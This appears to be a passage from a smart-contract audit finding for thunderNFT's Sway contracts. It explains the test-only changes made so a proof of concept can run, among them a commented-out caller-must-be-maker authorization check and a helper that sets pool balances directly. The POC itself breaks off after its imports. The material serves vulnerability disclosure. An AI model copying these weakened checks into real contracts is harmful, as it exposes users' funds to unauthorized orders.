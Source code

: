 ## NOTES TO TAKE IN MIND BEFORE RUNNING THE POC:

thunderNFT does not support sway test so we create one, and while sway is under development, there is some change we made to the in scope contracts to execute the POC:

* first we set the EXTRAPARAMS to public by adding `pub` keyword to it: this because sway test files does not allow using internal function or struct.
* in \_validate\_maker\_order\_input we commented the line below, because sway itself does not allow using msg.sender or control it so its possible to execute call to place\_order with maker equal to msg.sender.

`// require(input.maker == get_msg_sender_address_or_panic(), ThunderExchangeErrors::CallerMustBeMaker); // maker of order should be the caller`

* we added a simple function to update the user balance in the pool:

this is because sway test files does not allow calling payable function with asset id and coins at all, so we need to find way to update the user pool balance to simulate user depositing tokens:

```sway
    #[storage(read, write)]
    fn update_balance(asset: AssetId, amount: u64) {
        let identity = Identity::Address( Address::from(0xf9b8b6283d7fa5b672b530cbb84fcccb4ff8dc40f8176ef4544ddb1f1952ad07));
        storage.balance_of.insert((identity, asset), amount); 
    }
```

## POC:

```sway
contract;

 use interfaces::{
    thunder_exchange_interface::{ThunderExchange},
    royalty_manager_interface::*,
    asset_manager_interface::*,
    execution_manager_interface::ExecutionManager,
    execution_strategy_interface::*,
    pool_interface::Pool,
};

use libraries::{
    msg_sender_address::*,
    constants::*,
    order_types::*,
    ownable::*,
};

use std::{
    block::timestamp,
    auth::*,
    call_frames::*,
    context::*,
    contract_id::ContractId,
    logging::log,
    revert::require,
    storage::storage_map::*,
    asset::*,
};
 
#[test(should_revert)]
fn test_attack() {
    initialize_functions();


```